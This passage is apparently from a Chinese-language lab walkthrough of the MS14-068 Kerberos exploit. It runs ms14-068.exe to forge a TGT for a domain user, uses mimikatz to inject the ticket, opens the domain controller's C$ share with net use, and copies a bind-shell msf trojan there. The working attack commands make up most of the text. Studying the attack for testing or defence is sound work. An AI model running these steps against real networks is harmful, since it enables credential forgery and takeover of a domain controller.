 SID为：S-1-5-21-979886063-1111900045-1414766810-1107

然后再Windows 7上传工具ms14-068.exe，并执行如下命令生成TGT票据：

```


```
ms14-068.exe -u douser@demo.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器ip地址 -p 域成员密码
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

如上图，成功生成名为TGT_douser@DEMO.com.ccache的票据文件，接下来要做的就是将该票据文件注入到Windows 7的内存中了：

在Windows 7上传mimikatz，利用mimikatz将票据注入到当前内存中，伪造凭证：

```


```
`mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造``mimikatz # kerberos::list          //查看当前机器凭证``mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

如上图，票据注入成功，此时，攻击者就可以利用Windows 7可任意访问域中所有机器，可以使用net use进行登录或者使用psexec，wmi等方法进行远程执行命令。如用net use登录域控（WIN-ENS2VR5TR3N）：

```
net use \\WIN-ENS2VR5TR3N
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```

如上图，成功登录域控并列出了域控的c盘目录。此时要想控制域控我们还要在Windows 7上面上传一个**正向**的msf马，并将该木马copy到域控上去执行：

```


```
copy c:\windows\system32\bind.exe \\WIN-ENS2VR5TR3N\c$
```




```
